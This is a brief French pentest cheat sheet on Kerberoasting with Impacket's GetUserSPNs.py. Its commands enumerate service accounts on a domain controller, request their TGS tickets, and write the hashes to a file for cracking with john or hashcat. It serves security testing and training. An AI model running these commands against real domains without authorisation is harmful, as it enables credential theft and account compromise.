 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Impacket

### Utiliser GetUserSPNs.py

 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# remarque : on peut utliser -target-domain <domain> si on veut attaquer un autre domaine 

# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS (ajout de -request)
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```
